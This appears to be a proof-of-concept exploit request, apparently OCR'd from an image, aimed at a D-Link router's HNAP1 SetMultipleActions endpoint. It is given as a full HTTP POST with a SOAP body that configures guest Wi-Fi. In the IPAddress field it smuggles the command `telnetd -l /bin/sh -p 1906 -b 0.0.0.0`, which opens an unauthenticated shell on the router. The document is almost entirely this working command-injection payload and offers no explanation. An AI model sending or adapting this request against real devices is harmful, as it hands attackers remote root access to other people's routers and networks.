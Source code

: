 ```xml
POST /HNAP1/ HTTP/1.1

Host: 192.168.0.1

Content-Length: 2816

Accept: */*

X-Requested-With: XMLHttpRequest

HNAP_AUTH: 7C99583FDD6A339A328E749E62F4B60F 1729243036200

SOAPAction: "http://purenetworks.com/HNAP1/SetMultipleActions"

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Content-Type: text/xml; charset=UTF-8

Origin: http://192.168.0.1

Referer: http://192.168.0.1/GuestZone.html

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: uid=Is5uHLdu

Connection: close



<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz_Guest</RadioID><Enabled>true</Enabled><Mode>802.11bgn</Mode><SSID>dlink-guest</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>40</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower></TXPower><Coexistence>false</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz_Guest</RadioID><Enabled>true</Enabled><Type>WPAORWPA2-PSK</Type><Encryption>TKIPORAES</Encryption><KeyRenewal>3600</KeyRenewal><RadiusIP1></RadiusIP1><RadiusPort1></RadiusPort1><RadiusSecret1></RadiusSecret1><RadiusIP2></RadiusIP2><RadiusPort2></RadiusPort2><RadiusSecret2></RadiusSecret2><Key>4ba3be92c6836e98193052bc726b79b695cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb6</Key></SetWLanRadioSecurity><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_5GHz_Guest</RadioID><Enabled>true</Enabled><Mode>802.11anac</Mode><SSID>dlink-guest</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>1</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower></TXPower><Coexistence>false</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_5GHz_Guest</RadioID><Enabled>true</Enabled><Type>WPAORWPA2-PSK</Type><Encryption>TKIPORAES</Encryption><KeyRenewal>3600</KeyRenewal><RadiusIP1></RadiusIP1><RadiusPort1></RadiusPort1><RadiusSecret1></RadiusSecret1><RadiusIP2></RadiusIP2><RadiusPort2></RadiusPort2><RadiusSecret2></RadiusSecret2><Key>8b8f1292a61a6ee16430d6daffc595a295cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb695cabe9224b76eecdf30a5d472438bb6</Key></SetWLanRadioSecurity><SetGuestZoneRouterSettings xmlns="http://purenetworks.com/HNAP1/"><InternetAccessOnly>true</InternetAccessOnly><IPAddress>
`telnetd -l /bin/sh -p 1906 -b 0.0.0.0`</IPAddress><SubnetMask></SubnetMask><DHCPServer>true</DHCPServer><DHCPRangeStart></DHCPRangeStart><DHCPRangeEnd></DHCPRangeEnd><DHCPLeaseTime>0</DHCPLeaseTime></SetGuestZoneRouterSettings></SetMultipleActions></soap:Body></soap:Envelope>
```
